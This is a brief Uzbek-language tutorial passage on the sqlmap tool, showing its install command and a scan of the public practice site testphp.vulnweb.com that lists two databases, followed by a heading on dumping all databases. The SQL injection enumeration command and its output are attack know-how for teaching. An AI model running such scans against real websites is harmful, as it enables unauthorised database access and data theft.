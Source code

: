 **SQLMAP**   
```
sudo apt update && sudo apt install sqlmap
```   
1. Veb-saytda SQL Injection bor-yo'qligini aniqlash uchun (Barcha ma'lumotlar bazasini chiqarish):   
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --batch --dbs
```
available databases [2]:  
[*] acuart  
[*] information_schema  


2. Barcha ma'lumotlar bazasini chiqarish
